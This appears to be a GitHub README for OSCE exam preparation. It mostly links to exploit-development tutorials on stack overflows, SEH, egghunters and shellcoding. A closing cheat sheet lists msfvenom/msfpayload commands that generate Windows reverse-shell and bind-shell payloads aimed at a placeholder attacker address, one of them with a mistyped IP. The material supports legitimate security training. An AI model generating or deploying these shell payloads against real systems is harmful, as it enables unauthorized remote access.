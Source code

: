 <p align="center">
  <img width="300" height="300" src="https://github.com/bigb0sss/OSCE/blob/master/osce.png">
</p>

## Exploit Writeups
* Backdooring PE - [Weaponizing Your Favorite PE](https://medium.com/@bigb0ss/expdev-weaponizing-your-favorite-pe-portable-executable-exploit-c268c0c076c7)
* SEH + Egghunter(Manual Encoding) - [HP OpenView NNM 7.5 Exploitation](https://medium.com/@bigb0ss/expdev-hp-openview-nnm-7-5-exploitation-seh-egghunter-b25ea5fab43f)

### Exploit Exercise ([Protostar](http://exploit-exercises.lains.space/protostar/))
|Module |Link   |Note  |
| :---  | :---  | :---
|Stack0 |[Stack BOF Intro](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack0-214e8cbccb04)   | |
|Stack1 |[Stack BOF Basic1](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack1-2f28302559fc)  | |
|Stack2 |[Stack BOF Basic2](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack2-d6cb2e467853)  | |
|Stack3 |[Stack BOF Basic3](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack3-7db54291f867)  | |
|Stack4 |[Stack BOF Basic4](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack-4-bde92b7b6b38) | |
|Stack5 |[Stack BOF Shellcode](https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-5-c8d085c914e6) | |
|Stack6 |[Stack BOF ret2libc](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6)  | ROP is no need for OSCE |
|Stack7 |[Stack BOF ret2.text](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack-7-fea3ac85ffe7) | ROP is no need for OSCE. But learn POP; POP; RET concept with this |

## Links
* Study Plan - https://www.abatchy.com/2017/03/osce-study-plan
* Prep Guide - https://tulpa-security.com/2017/07/18/288/
* Mona.py - https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/

## Reviews
* Techryptic - [Great Tips](https://techryptic.github.io/2018/12/28/Study-Guide-&-Tips-Offensive-Security-Certified-Expert-(OSCE)-Cracking-The-Perimeter-(CTP)/)
* Jack Halon - https://jhalon.github.io/OSCE-Review/
* Connor McGarr - https://connormcgarr.github.io/CTP-OSCE-Thoughts/

## Github
* Examples - https://github.com/dhn/OSCE
* OSCE_Bible - https://github.com/mohitkhemchandani/OSCE_BIBLE
* FullShade - https://github.com/FULLSHADE/OSCE (*POCs)
* h0mbre - https://github.com/h0mbre/CTP-OSCE (*Good helpers)
* ihack4falafel - https://github.com/ihack4falafel/OSCE

## Resources
* Corelan - https://www.corelan.be/index.php/articles/
  * [Exploit Writing Part 1 - Stack-based Overflow](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)
  * [Exploit Writing Part 2 - Buffer Overflow](https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/)
  
* FuzzSecurity - http://fuzzysecurity.com/tutorials.html

* SecuritySift - http://www.securitysift.com/
  * [Windows Exploit Development Part 1 - Basics](http://www.securitysift.com/windows-exploit-development-part-1-basics/)
  * [Windows Exploit Development Part 2 - Stack-based Overflow](http://www.securitysift.com/windows-exploit-development-part-2-intro-stack-overflow/)
  * [Windows Exploit Development Part 3 - Offsets](http://www.securitysift.com/windows-exploit-development-part-3-changing-offsets-and-rebased-modules/)
  * [Windows Exploit Development Part 4 - Locating Shellcode JMP](http://www.securitysift.com/windows-exploit-development-part-4-locating-shellcode-jumps/)

* Fuzzing
  * https://resources.infosecinstitute.com/intro-to-fuzzing/
  * https://resources.infosecinstitute.com/fuzzer-automation-with-spike/

* Structured Exception Handler (SEH)
  * [Exploit Writing Part 3-1 - SEH](https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/)
  * [Exploit Writing Part 3-2 - SEH](https://www.corelan.be/index.php/2009/07/28/seh-based-exploit-writing-tutorial-continued-just-another-example-part-3b/)
  * [Windows Exploit Development Part 6 - SEH](http://www.securitysift.com/windows-exploit-development-part-6-seh-exploits/)

* Egghunter
  * http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf
  * [Exploit Writing Part 8 - Egghunting](https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/)
  * [Windows Exploit Development Part 5 - Egghunting](http://www.securitysift.com/windows-exploit-development-part-5-locating-shellcode-egghunting/)

* ASLR
  * [Exploit Writing Part 6 - ASLR](https://www.corelan.be/index.php/2009/09/21/exploit-writing-tutorial-part-6-bypassing-stack-cookies-safeseh-hw-dep-and-aslr/)

* Shellcoding
  * [Exploit Wrting Part 9 - Shellcoding](https://www.corelan.be/index.php/2010/02/25/exploit-writing-tutorial-part-9-introduction-to-win32-shellcoding/)
  * https://www.fuzzysecurity.com/tutorials/expDev/6.html
  * http://sh3llc0d3r.com/windows-reverse-shell-shellcode-i/
  * http://www.vividmachines.com/shellcode/shellcode.html#ws
  * Jumping to Shellcode - https://connormcgarr.github.io/CTP-OSCE-Thoughts/
  * Alphanumeric Shellcod2 1 - https://blog.knapsy.com/blog/2017/05/01/quickzip-4-dot-60-win7-x64-seh-overflow-egghunter-with-custom-encoder/
  * Alphanumeric Shellcode 2 - https://connormcgarr.github.io/Admin-Express-0day/
 
* Opcode
  * 32-bit Opcode Table - http://sparksandflames.com/files/x86InstructionChart.html
  * Types of Jump - http://www.unixwiz.net/techtips/x86-jumps.html

* Web Application
  * XSS - https://excess-xss.com/
  * XSS - https://www.veracode.com/security/xss
  
* Windows API
  * API Tables - https://docs.microsoft.com/en-us/windows/win32/apiindex/windows-api-list
<br>

## Reverse Shell
### Windows XP/Vista Ultimate
```bash
/pentest/exploits/framework/msfpayload windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=443 C
```
### Later Windows
```bash
/pentest/exploits/framework/msfpayload windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=443 C 

msfvenom -p windows/shell_reverse_tcp LHOST=1192.168.x.x LPORT=443 -a x86 --platform=win -e x86/alpha_mixed -f raw
```

## Bind Shell
### Windows XP/Vista Ultimate
```bash
msfpayload windows/shell_bind_tcp R > bind
msfencode -e x86/alpha_mixed -i bind -t perl
```
### Later Windows
```bash
msfvenom -p windows/shell_bind_tcp -a x86 --platform=win -e x86/alpha_mixed -f perl
```


